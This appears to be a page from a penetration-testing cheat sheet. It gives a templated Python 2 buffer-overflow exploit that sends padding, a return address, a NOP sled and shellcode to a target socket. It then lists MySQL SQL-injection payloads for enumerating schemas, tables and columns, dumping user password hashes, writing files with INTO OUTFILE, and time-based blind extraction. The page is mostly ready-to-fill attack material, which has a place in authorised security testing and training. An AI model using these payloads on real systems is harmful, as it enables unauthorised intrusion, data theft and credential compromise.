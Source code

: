 -----

#### Exploit

[exploit.py]()

```python=
#!/usr/bin/python2
import sys, socket

shellcode = ({shellcode})

payload = "A" * {offset} + "{address}" + "\x90" * 32 + shellcode

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('{IP}',{PORT}))
        s.recv(1024)
        s.send(payload)
        s.close()

except:
        print "Error connecting to server"
        sys.exit()
```

-----

### SQL Injection

#### MySQL

- DB name
  - `SELECT schema_name FROM information_schema.schemata`
- Table name
  - `SELECT table_name FROM information_schema.tables WHERE table_schema='{db_name}'`
- Column name
  - `SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}'`
- Select data
  - `SELECT concat({data1},':',{data2}) FROM {db_name}.{table_name}`
- Mysql User & Hash
  - `SELECT concat(user,':',password) FROM mysql.user`
- Command dump
  - `mysqldump -u {username} -h localhost -p {dbname}`
- Write file
  - `SELECT "meow" INTO OUTFILE "/tmp/a";`
- Bind SQL Injection
    - Time Based
        - Test length of string
            - `if(LENGTH({test_value})={number},sleep(1),NULL)`
        - Test string
            - `if(SUBSTRING({test_value}, 1, {number})="{test}",sleep(1),NULL) -- -`
        - Dump table count
            - `if(LENGTH(table_name)={number},sleep(0.3),NULL) FROM information_schema.tables WHERE table_schema="{db_name}" -- -`
        - Dump table
            - `UNION SELECT SLEEP(0.3) FROM information_schema.tables WHERE table_schema="{db_name}" AND table_name LIKE '{test}%' -- -`
        - Dump column
            - `UNION SELECT SLEEP(0.3) FROM information_schema.columns WHERE table_name="{table_name}" AND column_name LIKE '{test}%' -- -`
        - Dump data
            - `UNION SELECT SLEEP(0.3) FROM {table_name} WHERE {column_name} LIKE '%'  -- -`
